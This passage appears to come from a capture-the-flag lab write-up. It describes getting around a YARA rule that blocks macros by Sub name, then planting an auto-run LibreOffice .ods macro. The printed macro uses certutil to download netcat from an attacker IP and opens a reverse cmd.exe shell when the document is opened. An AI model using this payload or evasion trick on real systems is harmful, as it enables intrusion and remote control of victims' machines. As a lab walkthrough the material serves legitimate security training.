 The `.ods` file extension is used by LibreOffice Calc and this seems to be a hint that I need to use this file format for my payload. One blog post says that malware samples dropped on the share will automatically be executed, but as a low privilege user. This is likely the first step to get a foothold on the box. The blog posts link to [0xdf's blog post about Yara rules](https://0xdf.gitlab.io/2019/03/27/analyzing-document-macros-with-yara.html). The example shown on the blog blacklists the following Subs:

- Sub OnLoad
- Sub Exploit

Because I can assign any macro to the Open Document event, I can use `Run_at_open` (or any name for that matter) instead of `OnLoad` for the function name and it won't be caught by the YARA rule.

I created a `sales.ods` file with the following macro using `certutil` to download netcat and execute it.

```vb
Sub Run_at_open
	Shell("certutil.exe -urlcache -split -f 'http://10.10.16.9/nc.exe' C:\Windows\System32\spool\drivers\color\nc.exe")
	Shell("C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.9 4444 -e cmd.exe")
End Sub
```

The macro needs to be assigned to the `Open Document` Event as follows:

![](/assets/images/htb-writeup-re/macroassign.png)

